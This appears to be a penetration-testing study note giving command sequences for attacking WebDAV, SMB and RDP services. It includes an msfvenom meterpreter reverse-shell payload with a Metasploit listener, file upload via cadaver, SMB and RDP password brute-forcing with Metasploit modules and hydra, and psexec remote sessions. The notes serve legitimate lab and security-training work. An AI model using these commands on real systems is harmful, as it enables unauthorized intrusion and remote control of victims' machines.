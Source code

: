 
### Webdav with metasploit

- `nmap -sV -p 80 --script=http-enum <target>`
- Generate paylaod `msfvenom - p windows/meterpreter/reverse_tcp LHOST=<host_ip> LPORT=<host_port> -f asp > shell.asp`
- `cadaver <target/webdav>` -> put payload into website
- Set up listener -> open `msfconsole`
- `use multi/handler`  -> `set payload windows/meterpreter/reverse_tcp` -> set lhost and lport -> run

Other exploit method
- Use module exploit `iis_webdav_upload_asp` -> set `HttpUsername` and `HttpPassowrd`
- set `PATH`

### SMB with Psexec

SMB (Samba in linux) protocol utilizes two levels of authentication
- User Authentication - Username + password
- Share authentication - Password share

![SMB auth](./Assets/image_9.png)

PsExec is lightweight telnet develop by MS. PsExec authentication is performed via SMB (usually using user Administrator)

Common exploit is brute force SMB.

- Use module `smb_login` -> Set `RHOSTS` `SMB domain` (if needed) 
- Set `USER_FILE` () and `PASS_FILE` -> Run to get username and password
- `psexec.py user@ip cmd.exe` to setup remote sessions

Other method:
- Use exploit module `smb/psexec` to setup remote sessions.

### RDP

- Use module `rdp_scanner` Scan for port running RDP
- To obtain user/password, use `hydra`
  - `hydra -L <user_list> -P <password_list> rdp://<target> -s <port>`
  - Reduce brute force speed by `-t <number>` default `16`
- Use `xfreerdp /u:<user> /p:<pass> /v:<target_ip>:<port>`
